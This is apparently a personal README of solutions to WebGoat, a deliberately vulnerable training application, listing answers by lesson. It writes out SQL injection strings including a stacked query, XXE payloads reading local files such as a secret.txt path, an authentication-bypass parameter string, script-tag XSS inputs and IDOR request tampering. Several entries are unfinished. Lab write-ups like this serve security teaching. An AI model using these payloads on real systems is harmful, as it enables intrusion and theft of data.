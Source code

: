 # WebGoat
## [General](./General/README.md)
## [Injection Flaws](./InjectionFlaws/README.md)
## [Authentication Flaws](./AuthenticationFlaws/README.md)
## [Cross-site Scripting](./Cross-SiteScripting_XSS/README.md)
## [Access Control Flaws](./AccessControlFlaws/README.md)
## [Insecure Communication](./InsecureCommunication/README.md)
## [Request Forgeries](./RequestForgeries/README.md)
---
## Introduction [x]
### WebGoat [x]
* Read
### WebWolf [x]
* Install Webwolf, send email, write code from mail.
* Reset password, go to Webwolf get code
## General [x]
### Http basics [x]
* write something
* intercept HTTP, get header and read the answer
### Http Proxies [x]
* Intercept package, modify it to suite the task, make sure to modify properly the POST
```
/WebGoat/HttpProxies/intercept-request?changeMe=Requests%20are%20tampered%20easily HTTP/1.1
```
---
## Injection Flaws [ ]
### SQL Injeciton [x]
```SQL
smith' or '1' = '1
```
```SQL
1 or true
```
### SQL Injection advanced [ ]
```SQL
asd' or true; select * from user_system_data; --
```
```SQL
work in progress
```
### SQL Injection mitigation
```SQL
1' or true order by (case when (hostname = 'webgoat-prd') hostname else status;
```
* Solution: 192.168.4.0
### XXE
#### 3
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 4
* Specify content type to be xml
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 7
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:////home/USER/.webgoat/XXE/secret.txt" >]>
<comment>
  <text>a&xxe;</text>
</comment>
```
---
## Authentication Flaws [x]
### Authentication Bypass [x]
```js
(secQuestion0=aORtrue)&(secQuestion1=aORtrue)&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746
```
### JWT tokens (Under development) [x]
* In development, therefore passed by default
---
## Coss-Site Scripting (XSS) [ ]
### Cross Site Scripting
#### 3
* YES
#### 7
* Credit card number field
```jss
<script>alert('my javascript here')</script>
```
#### 10
* 2 ways - start.mvc#test/
  * go to lesson java file and check if condition
  * go to GoatRoute.js and find the solution
#### 11
* url + <script>webgoat.customjs.phoneHome()
## Access Control Flaws [ ]
### Insecure Direct Object References
#### 2
* tom cat
#### 3
* Intercept http request
```json
{
  "role": 3,
  "color": "yellow",
  "size": "small",
  "name": "Tom Cat",
  "userId": "2342384"
}
```
* Missing fields are `role` and `userId`
#### 4
* Intercept HTTP, path to profile `WebGoat/IDOR/profile/2342384`
### Missing Function Level Access Control
#### 2
* Enough to access the console and analyse the html page and check for links or other important info that are just commented out. Like the Admin panel.
#### 3
*
## Insecure Communication
### Insecure Login
* Intercept the login and use the intercepted credential to sign-in
## Request Forgeries
### Cross-Site Request Forgeries
*
## Vulnerable Components - A9
### Vulnerable Components
* It is enough to delete the content ```<contact></contact>```
## Client side
* To solve all this tasks it is enough to search in the html the needed fields and modify them
### Client side filtering
### Bypass front-end restriction
### HTML tampering
## Challenges
### WebGoat Challenge
### Admin lost password
### Get it for free
### Photo comments
### Voting
### Without password
### Creating a new account
### Admin Password
### Without account
### Changing password
